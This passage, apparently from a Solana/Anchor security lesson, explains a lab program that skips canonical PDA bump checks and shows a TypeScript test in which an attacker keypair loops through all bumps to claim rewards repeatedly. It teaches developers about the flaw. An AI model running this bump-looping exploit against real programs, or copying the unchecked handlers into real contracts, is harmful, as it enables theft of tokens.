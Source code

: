 The `create_user_insecure` instruction handler simply creates a new account at a
PDA derived using the signer's public key and a passed-in bump.

The `claim_insecure` instruction handler mints 10 tokens to the user and then
marks the account's rewards as claimed so that they can't claim again.

However, the program doesn't explicitly check that the PDAs in question are
using the canonical bump.

Have a look at the program to understand what it does before proceeding.

### 2. Test Insecure Instruction Handlers

Since the instruction handlers don't explicitly require the `user` PDA to use
the canonical bump, an attacker can create multiple accounts per wallet and
claim more rewards than should be allowed.

The test in the `tests` directory creates a new keypair called `attacker` to
represent an attacker. It then loops through all possible bumps and calls
`create_user_insecure` and `claim_insecure`. By the end, the test expects that
the attacker has been able to claim rewards multiple times and has earned more
than the 10 tokens allotted per user.

```typescript
it("allows attacker to claim more than reward limit with insecure instruction handlers", async () => {
  try {
    const attacker = Keypair.generate();
    await airdropIfRequired(
      connection,
      attacker.publicKey,
      1 * LAMPORTS_PER_SOL,
      0.5 * LAMPORTS_PER_SOL,
    );
    const ataKey = await getAssociatedTokenAddress(mint, attacker.publicKey);

    let successfulClaimCount = 0;

    for (let i = 0; i < 256; i++) {
      try {
        const pda = anchor.web3.PublicKey.createProgramAddressSync(
          [attacker.publicKey.toBuffer(), Buffer.from([i])],
          program.programId,
        );
        await program.methods
          .createUserInsecure(i)
          .accounts({
            user: pda,
            payer: attacker.publicKey,
          })
          .signers([attacker])
          .rpc();
        await program.methods
          .claimInsecure(i)
          .accounts({
            user: pda,
            mint,
            payer: attacker.publicKey,
            userAta: ataKey,
            mintAuthority,
            tokenProgram: anchor.utils.token.TOKEN_PROGRAM_ID,
            associatedTokenProgram: anchor.utils.token.ASSOCIATED_PROGRAM_ID,
            systemProgram: anchor.web3.SystemProgram.programId,
            rent: anchor.web3.SYSVAR_RENT_PUBKEY,
          })
          .signers([attacker])
```